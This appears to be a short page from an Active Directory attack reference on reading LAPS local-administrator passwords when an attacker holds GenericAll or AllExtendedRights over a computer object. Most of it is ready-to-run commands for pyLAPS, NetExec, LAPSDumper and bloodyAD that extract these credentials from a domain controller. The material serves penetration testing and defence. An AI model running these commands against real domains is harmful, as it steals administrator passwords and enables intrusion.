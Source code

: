 This abuse can be carried out when controlling an object that has `GenericAll or AllExtendedRights (or combination of GetChanges and (GetChangesInFilteredSet or GetChangesAll)` for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).
=== "UNIX-like"
    From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.
    ```bash
    pyLAPS.py --action get -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --dc-ip "$DC_IP"
    ```
    Alternatively, NetExec also has this ability. In case it doesn't work this public module for CrackMapExec could also be used.
    ```bash
    # Default command
    nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --module laps

    # The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
    nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --module laps -O computer="target-*"
    ```
    [LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.
    ```bash
    python laps.py -u user -p password -d domain.local
    ```
    Alternatively, it can be achieved using bloodyAD
    ```bash
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
    ```
